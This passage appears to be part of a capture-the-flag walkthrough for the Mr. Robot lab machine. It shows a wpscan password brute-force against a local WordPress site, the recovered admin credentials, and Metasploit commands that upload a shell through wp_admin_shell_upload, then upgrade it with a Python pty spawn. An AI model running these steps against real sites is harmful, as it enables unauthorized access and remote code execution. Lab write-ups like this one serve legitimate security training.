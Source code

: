  ```text
 wpscan --url 192.168.0.6 --passwords elliot_password.txt --usernames Elliot  
```
And we got it
<img src="./img/Pasted image 20240811212115.png"></img>
Now the combination are:
```text
username:Elliot
password:ER28-0652
```
```text
http://192.168.0.6/wp-login.php
http://192.168.0.6/key-1-of-3.txt
192.168.0.6/fsocity.dic
```
Now login into Wordpress using creditionals
Let now open a reverse shell.
Simple method to open a shell  using metasploit.
1.open msfconsole
2.search for wordpress shell
follow the cmds
```text
msfconsole
search wordpress shell
use exploit/unix/webapp/wp_admin_shell_upload
set RHOST target ip address
set USERNAME Elliot
set PASSWORD ER28-0652
set WPCHECK False
run
```
We got the meterpreter shell open now
now open a session by typing the cmd.
```text
shell
```
And open sh shell by using cmd.
```text
python -c 'import pty; pty.spawn("/bin/sh")'
```